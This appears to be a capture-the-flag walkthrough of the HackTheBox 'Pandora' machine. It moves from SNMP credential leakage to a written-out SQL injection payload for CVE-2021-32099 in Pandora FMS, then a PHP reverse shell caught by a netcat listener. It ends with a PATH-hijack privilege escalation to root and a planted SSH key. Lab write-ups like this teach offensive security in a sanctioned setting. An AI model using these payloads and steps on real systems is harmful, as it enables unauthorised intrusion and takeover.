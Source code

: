 # HackTheBox Pandora Walkthrough

![](images/image-2.png)

Like always, we start off with an NMAP scan. I chose to use NMAPAutomator.

[https://github.com/21y4d/nmapAutomator](https://github.com/21y4d/nmapAutomator)

![](images/image-1024x395.png)

![](images/image-1-1024x527.png)

TCP ports 22 and 80 are open. UDP port 161 is open and running SNMP service.

Let's try visiting port 80 first using an HTTP link.

![](images/image-2-962x1024.png)

Nothing seems interesting on this page.

Let's try port 161 next.

snmp-check 10.10.11.136

![](images/image-3-1024x910.png)

Scrolling down we find some interesting data containing a username and password.

![](images/image-4.png)

We can try logging into ssh using the newly acquired credentials.

ssh daniel@10.10.11.136

![](images/image-5.png)

linpeas.sh is conveniently stored in the home folder.

Nothing interesting was found from running Linpeas for now.

Next, we'll try running Netstat to see if we can find anything.

netstat -an

![](images/image-6-1024x304.png)

There is a service running on port 80.

To access it, we need to set up a tunnel on port 80 from the victim machine to our kali machine.

ssh -L 80:localhost:80 daniel@10.10.11.136

Now we can access the service by opening localhost/pandora\_console on our kali machine.

![](images/image-7-802x1024.png)

Let's try entering daniels credentials in.

![](images/image-8.png)

No luck there. By searching google for pandora FMS 742 exploit (version # found at the bottom of the pandora\_console homepage).

There is an interesting article written about CVE-2021-32099. A SQL injection vulnerability. [https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained/)

Following the guide, we can use Sqlmap to try and find a session id to log in as matt or daniel. Unfortunately, that doesn't really help us.

More googling led me to find the following POC [https://github.com/ibnuuby/CVE-2021-32099](https://github.com/ibnuuby/CVE-2021-32099)

By adding the following to the URL, we can login as admin by simply visiting http://localhost/pandora\_console

http://localhost/pandora\_console/include/chart\_generator.php?session\_id=a' UNION SELECT 'a',1,'id\_usuario|s:5:"admin";' as data FROM tsessions\_php WHERE '1'='1

![](images/image-9-931x1024.png)

Now that we're logged in as admin, we can navigate to the file manager and upload some malicious code!

Download this PHP code to create a reverse shell. [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![](images/image-10-1024x857.png)

Be sure to edit the file and add your listening IP and port. I'm using port 4444 for this demonstration.

Save and upload the file.

![](images/image-11-1024x806.png)

Notice how we uploaded the file to the directory 'images'.

Now we need to start a listener on our kali machine.

nc -lnvp 4444

![](images/image-12.png)

Our machine is listening and now we need to run the PHP file that we've just uploaded.

![](images/image-13-1024x515.png)

We've got a shell logged in as matt!

cat /home/matt/user.txt

We have our first flag. Now we need to see how we can escalate privileges to root.

First, we can try running linpeas as matt to see if we can find anything.

![](images/image-14-1024x873.png)

Pandora\_backup is an interesting file that is owned by root.

Let's take a look inside to see if we can find anything.

cat /usr/bin/pandora\_backup

![](images/image-15-1024x571.png)

Somewhere inside the file, tar is running. We can try to exploit this by changing the $PATH variable.

First, we'll create a new file named tar that will run bash -p.

We'll make the tar an executable and then modify the $PATH to add a new path where our tar is located.

By running /usr/bin/pandora\_backup as matt, inside the file root will actually execute tar. When root executes our tar file, a new bash terminal will spawn as root.

echo "bash -p" > tar
chmod +x tar
export PATH=/home/matt:$PATH

Now we'll actually need to ssh into this machine in order for the exploit to work.

The quickest way is to use an ssh key generated on our kali machine.

ssh-keygen

![](images/image-16.png)

cat ~/.ssh/id\_rsa.pub

Copy the public key and paste it into matts machine.

echo "<id\_rsa.pub>" > /home/matt/.ssh/authorized\_keys

chmod 0600 /home/matt/.ssh/authorized\_keys

Now we can ssh from our kali machine

ssh matt@10.10.11.136

Since this is a new session we'll need to export our new path again.

export PATH=/home/matt:$PATH
/usr/bin/pandora\_backup

![](images/image-17.png)

And we have our root.txt!
